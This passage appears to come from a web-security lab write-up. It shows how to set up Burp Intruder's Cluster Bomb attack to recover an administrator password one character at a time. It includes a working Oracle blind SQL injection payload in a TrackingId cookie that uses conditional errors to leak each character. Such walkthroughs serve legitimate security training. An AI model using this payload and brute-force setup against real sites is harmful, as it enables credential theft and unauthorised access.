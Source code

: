 ![picture 39](/assets/images/b604ee3e052727d0f01627de43329c373fadfcda07950235e64ec62110927bbd.png)  

## Finding password with Burp Intruder - whole password

Now let's cycle through 20 character using `Cluster Bomb` with 2 payload sets:
- Numbers from 1 to 21 with Step 1 and Min integer digits set to 1 and Max integer digits set to 2, eveything else to 0
- Brute Forcer with Min and Max length set to 1

Disable encoding!

```sql
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§e§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';
```

This is the closest that i was able to get:
![picture 40](/assets/images/f3194e1e58bd1273ac34f45f947fced302c9421027260a51fd9558bd461ee256.png) 
